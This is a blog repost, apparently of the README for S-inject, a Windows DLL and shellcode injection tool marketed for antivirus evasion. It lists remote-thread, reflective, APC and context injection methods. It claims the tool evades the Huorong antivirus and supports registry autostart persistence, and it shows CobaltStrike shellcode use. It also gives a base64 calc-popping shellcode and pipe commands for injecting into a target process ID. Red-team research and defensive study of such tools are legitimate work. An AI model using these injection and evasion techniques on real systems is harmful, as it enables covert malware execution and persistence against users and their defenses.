 ```yaml
---
title: DLL+Shellcode的Windows注入免杀工具
date: 2024-3-10 21:00:46
tags:
- 渗透工具推荐
categories:
- 工具推荐
---
```




# S-inject

github链接:
https://github.com/Joe1sn/S-inject

DLL+Shellcode的Windows注入免杀工具

[![image-20240205141410967](https://github.com/Joe1sn/S-inject/raw/main/README.assets/image-20240205141410967.png)](https://github.com/Joe1sn/S-inject/blob/main/README.assets/image-20240205141410967.png)

只是罗列各种方法，免杀搭配其他技巧中要具体灵活使用

**须知：**

1. 反射式注入参考了著名github项目：https://github.com/stephenfewer/ReflectiveDLLInjection 该项目为反射式注入支持的DLL
2. Shellcode使用base64编码后的shellcode
3. 相关测试的DLL文件在`Test Files`文件夹中

**免责声明：** 本工具仅供教育和授权测试目的使用。开发者及贡献者不支持、不鼓励也不赞成任何非法或未经授权的使用。 用户有责任确保其使用本工具的行为符合所有适用的法律法规。严禁将本工具用于任何未经授权的活动。 开发者及贡献者对使用本工具造成的任何损害或后果不承担责任。使用前请自行承担风险。 通过使用本工具，您同意这些条款，并对您的行为承担全部责任。

# Update



- **[2024-3-8]** 更新64位`CreateRemoteThread`为直接系统调用，方法采用`SysWisper3`项目

# 免杀效果



远程shellcode注入等功能可免杀火绒，VNC无感，可注册表添加开机自启动

[![image-20240216112653373](https://github.com/Joe1sn/S-inject/raw/main/README.assets/image-20240216112653373.png)](https://github.com/Joe1sn/S-inject/blob/main/README.assets/image-20240216112653373.png)

[![image-20240216113029381](https://github.com/Joe1sn/S-inject/raw/main/README.assets/image-20240216113029381.png)](https://github.com/Joe1sn/S-inject/blob/main/README.assets/image-20240216113029381.png)

[![image-20240216113432922](https://github.com/Joe1sn/S-inject/raw/main/README.assets/image-20240216113432922.png)](https://github.com/Joe1sn/S-inject/blob/main/README.assets/image-20240216113432922.png)

[![image-20240216113917066](https://github.com/Joe1sn/S-inject/raw/main/README.assets/image-20240216113917066.png)](https://github.com/Joe1sn/S-inject/blob/main/README.assets/image-20240216113917066.png)

# 支持功能



[![image-20240205124826998](https://github.com/Joe1sn/S-inject/raw/main/README.assets/image-20240205124826998.png)](https://github.com/Joe1sn/S-inject/blob/main/README.assets/image-20240205124826998.png)

**DLL注入**

- 远程线程注入
- 反射式注入
- APC调度注入

**Shellcode注入**

- 远程线程注入
- APC调度注入
- Context上下文注入
- **可注入进程枚举**

# 使用



非交互式终端使用管道传参

- 注意cmd和powershell的区别
- 注意cmd字符串超过80个会自动换行，推荐搭配powershell

## Shellcode注入



这里以64为windows10版本Calc shellcode位例子(虽然会崩溃) shellcode来源：https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode base64编码后shellcode

```
SDH/SPfnZUiLWGBIi1sYSItbIEiLG0iLG0iLWyBJidiLWzxMAcNIMclmgcH/iEjB6QiLFAtMAcJNMdJEi1IcTQHCTTHbRItaIE0Bw00x5ESLYiRNAcTrMltZSDHASIniUUiLDCRIMf9BizyDTAHHSInW86Z0BUj/wOvmWWZBiwREQYsEgkwBwFPDSDHJgMEHSLgPqJaRuoeanEj30EjB6AhQUeiw////SYnGSDHJSPfhUEi4nJ6TnNGah5pI99BQSInhSP/CSIPsIEH/1g==
```



[![image-20240205135709302](https://github.com/Joe1sn/S-inject/raw/main/README.assets/image-20240205135709302.png)](https://github.com/Joe1sn/S-inject/blob/main/README.assets/image-20240205135709302.png)

以CobaltStrike Shellcode为例子

[![image-20240205140305351](https://github.com/Joe1sn/S-inject/raw/main/README.assets/image-20240205140305351.png)](https://github.com/Joe1sn/S-inject/blob/main/README.assets/image-20240205140305351.png)

### 关于使用不可交互终端



可以参考 DLL注入：B, 不可交互终端 部分，尝试利用管道加载

```
#cmd
(echo <option> <base64 Shellcode>) | <S-inject Path>

#powershell
echo "<option index>`n`<pid>`n`<base64 Shellcode>" | <S-inject Path>

#(echo 4`n`16900`n`SDH/SPfnZUiLWGBIi1sYSItbIEiLG0iLG0iLWyBJidiLWzxMAcNIMclmgcH/iEjB6QiLFAtMAcJNMdJEi1IcTQHCTTHbRItaIE0Bw00x5ESLYiRNAcTrMltZSDHASIniUUiLDCRIMf9BizyDTAHHSInW86Z0BUj/wOvmWWZBiwREQYsEgkwBwFPDSDHJgMEHSLgPqJaRuoeanEj30EjB6AhQUeiw////SYnGSDHJSPfhUEi4nJ6TnNGah5pI99BQSInhSP/CSIPsIEH/1g==) |  D:\Github\S-inject\x64\Release\S-inject.exe
```



[![image-20240205140815069](https://github.com/Joe1sn/S-inject/raw/main/README.assets/image-20240205140815069.png)](https://github.com/Joe1sn/S-inject/blob/main/README.assets/image-20240205140815069.png)

## DLL注入



### A, 可交互终端



直接在终端中启动，根据菜单选择功能即可，如枚举可注入进程

[![image-20240205125036362](https://github.com/Joe1sn/S-inject/raw/main/README.assets/image-20240205125036362.png)](https://github.com/Joe1sn/S-inject/blob/main/README.assets/image-20240205125036362.png)

### B, 不可交互终端



因为作者不想增加代码量，单独增添没有必要的参数功能，可以利用管道解决该问题 以下示例使用的注入对象更新前的为`x32dbg`和`x64dbg`，因为一个软件有两个位数的版本，在`x96dbg`中可以选择位数，便于测试

**如远程线程DLL注入**

x64

- powershell

  ```
  echo "<option index>`n`<DLL Path>`n`<PID>" | <S-inject Path>
  
  #echo "1`n`D:\Github\S-inject\Test Files\TestDll_x64.dll`n`20176" | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  

  [![image-20240205131438254](https://github.com/Joe1sn/S-inject/raw/main/README.assets/image-20240205131438254.png)](https://github.com/Joe1sn/S-inject/blob/main/README.assets/image-20240205131438254.png)

- cmd

  推荐使用powershell启动

  ```
  powershell -c echo "<option index>`n`<DLL Path>`n`<PID>" | <S-inject Path>
  
  #powershell -c echo "1`n`D:\Github\S-inject\Test Files\TestDll_x64.dll`n`20176" | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  

  [![image-20240205131316348](https://github.com/Joe1sn/S-inject/raw/main/README.assets/image-20240205131316348.png)](https://github.com/Joe1sn/S-inject/blob/main/README.assets/image-20240205131316348.png)

  cmd.exe

  ```
  (echo <option> <DLL Path> &echo <PID>) | <S-inject Path>
  
  #(echo 1 D:\Github\S-inject\Test Files\TestDll_x64.dll &echo 22268) | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  

  [![image-20240205135210534](https://github.com/Joe1sn/S-inject/raw/main/README.assets/image-20240205135210534.png)](https://github.com/Joe1sn/S-inject/blob/main/README.assets/image-20240205135210534.png)